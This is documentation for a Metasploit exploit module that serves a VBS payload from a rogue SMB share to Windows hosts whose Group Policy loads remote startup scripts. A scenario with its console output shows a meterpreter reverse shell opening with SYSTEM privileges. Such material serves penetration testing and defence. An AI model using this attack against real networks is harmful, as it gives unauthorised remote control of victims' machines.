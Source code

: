 ## Vulnerable Application

This is a general-purpose module for exploiting systems with Windows Group Policy configured to load VBS startup/logon scripts from remote locations.
This module runs a SMB shared resource that will provide a payload through a VBS file. Startup scripts will be executed with SYSTEM privileges,
while logon scripts will be executed with the user privileges. The attacker still needs to redirect the target traffic to the fake SMB
share to exploit it successfully.

Please note in some cases, it will take 5 to 10 minutes to receive a session.

More information available at [Gotham Digital Science Security](https://blog.gdssecurity.com/labs/2015/1/26/badsamba-exploiting-windows-startup-scripts-using-a-maliciou.html)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use modules/exploits/windows/smb/group_policy_startup```
  3. Do: ```exploit```

## Options

  **FILE_NAME**

  VBS File name to share (Default: random .vbs)

  **FOLDER_NAME**

  Folder name to share (Default: none)

  **SHARE**

  Share name (Default: Random)


## Scenarios

### Domain Group Policy

In this scenario, the following computers are present:

1. Windows 7 (x64, Build 7601, SP1): Victim
2. Server 2016 (x64, Version 1607, OS Build 14393.970): Domain Controller

The module sets up the SMB share and VBScript file. Out of band (outside the scope of this module or docs) a Group Policy is simply applied to the `OU` computer container.
Next, the Win 7 box grabs the payload, in this case the meterpreter reverse_tcp stager on boot, with `SYSTEM` privs because its executed as a start up script.
Theoretically, any computer in that `OU` would also execute the script on started up. 

  ```
  msf > use modules/exploits/windows/smb/group_policy_startup
  msf exploit(windows/smb/group_policy_startup) > set FILE_NAME startup.vbs
    FILE_NAME => startup.vbs
  msf exploit(windows/smb/group_policy_startup) > set SHARE scripts
    SHARE => scripts
  msf exploit(windows/smb/group_policy_startup) > exploit
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] File available on \\192.168.1.3\scripts\startup.vbs...
    [*] Started service listener on 192.168.1.3:445
    [*] Server started.
    [*] Sending stage (180291 bytes) to 192.168.1.4
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-04 13:12:05 -0700
  msf exploit(windows/smb/group_policy_startup) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : MSF-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
